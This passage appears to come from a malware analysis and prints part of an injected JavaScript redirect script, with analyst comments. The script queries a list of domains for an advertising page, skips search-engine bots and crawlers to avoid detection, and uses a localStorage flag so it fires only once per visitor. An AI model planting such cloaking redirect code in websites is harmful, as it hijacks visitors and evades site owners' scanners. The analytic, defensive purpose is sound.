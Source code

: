 ```javascript
    xhr.open('GET', domain, true);
    xhr.send();
}
for (var i = 0; i < domains.length; i++) { //Loop over the list of domains to find a final advertsing page
    getDomainName(domains[i]);
}

function start() {
    var from = document.referrer; //Strangely the author did not use the variables set in the next four lines
    var i; // If it's direct <- //This is an original comment left by the author
    var eee = ["", " "];
    var se = ["google", "yahoo", "bing", "yandex", "baidu", "gigablast", "soso", "blekko", "exalead", "sogou", "duckduckgo", "volunia", "sucuri"]; //This appears to be a list of blacklisted useragents
    if (checkCookie()) {
        return;
    }
    var uagent = navigator.userAgent;
    if (!uagent || uagent.length == 0) { //Read the useragent, if not end
        return;
    }
    uagent = uagent.toLowerCase();
    if (uagent.indexOf('google') != -1 || uagent.indexOf('bot') != -1 || uagent.indexOf('crawl') != -1) {} else { //Check if the client is a bot or a crawler
        hideWebSite();
    }

    function getCookie(c_name) {
        var c_value = document.cookie;
        var c_start = c_value.indexOf(" " + c_name + "=");
        if (c_start == -1) {
            c_start = c_value.indexOf(c_name + "=");
        }
        if (c_start == -1) {
            c_value = null;
        } else {
            c_start = c_value.indexOf("=", c_start) + 1;
            var c_end = c_value.indexOf(";", c_start);
            if (c_end == -1) {
                c_end = c_value.length;
            }
            c_value = unescape(c_value.substring(c_start, c_end));
        }
        return c_value;
    }

    function setCookie(c_name, value, exdays) { //Create a cookie with the passed parameters
        var exdate = new Date();
        exdate.setDate(exdate.getDate() + exdays);
        var c_value = escape(value) + ((exdays == null) ? "" : "; expires=" + exdate.toUTCString());
        document.cookie = c_name + "=" + c_value;
    }

    function checkCookie() {
        if (localStorage.getItem('yYjra4PCc8kmBHess1ib') === '1') { //Check if a local storage object named yYjra4PCc8kmBHess1ib exists with the value 1
            return true;
        } else {
            localStorage.setItem('yYjra4PCc8kmBHess1ib', '1'); //Create the local storage object if it does not exist
```